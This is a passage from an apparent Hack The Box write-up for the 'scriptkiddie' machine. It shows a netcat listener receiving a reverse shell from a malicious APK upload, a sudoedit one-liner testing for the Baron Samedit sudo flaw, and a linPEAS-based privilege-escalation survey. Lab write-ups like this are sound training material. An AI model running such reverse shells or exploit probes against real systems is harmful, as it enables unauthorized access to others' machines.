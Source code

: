 ```
root@kali:/home/kali/Desktop/HTB/machines/scriptkiddie#
```

Start a netact listening session on your host machine, and upload the APK under android selected to the webserver, and before you know magic happens:

```
root@kali:/home/kali# nc -lvp 7070
listening on [any] 7070 ...
10.129.98.21: inverse host lookup failed: Unknown host
connect to [10.10.14.35] from (UNKNOWN) [10.129.98.21] 37670
ls
__pycache__
app.py
static
templates
whoami
kid
pwd
/home/kid/html
cd ..
pwd
/home/kid
ls
html
logs
snap
user.txt
```

So now I have the user flag. Lets see if I can get the root flag somehow. Earlier 2021 revealed a sudo privesc vuln [which can be read more about here](https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt). You can check if the system you are testing is vulnerable with a one liner. If your system returns something like the output of a help page/usage manual then it is not vulnerable for this exploit. Anyways here is my output:


```
sudo --version
Sudo version 1.8.31
Sudoers policy plugin version 1.8.31
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.31
sudoedit -s '\' `perl -e 'print "A" x 65536'`
usage: sudoedit [-AknS] [-r role] [-t type] [-C num] [-g group] [-h host] [-p
                prompt] [-T timeout] [-u user] file ...

```
Sadly this exploit did not work, but no worries. I first tried to figure out of this device is connected to the internet. Which it wasnt, so I set up a simplehttpserver on my host machine, transferred [linpeass](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) to scriptkiddie and ran it there. The output gave me some options:

- An application was installed called Snap/LXD which gives root to /index
- .msf4 folder which stands for metasploit4
- Various SUID's which I needed a password for
- And some HTB-forum users which suggested that you must in practice own three users to complete this box.
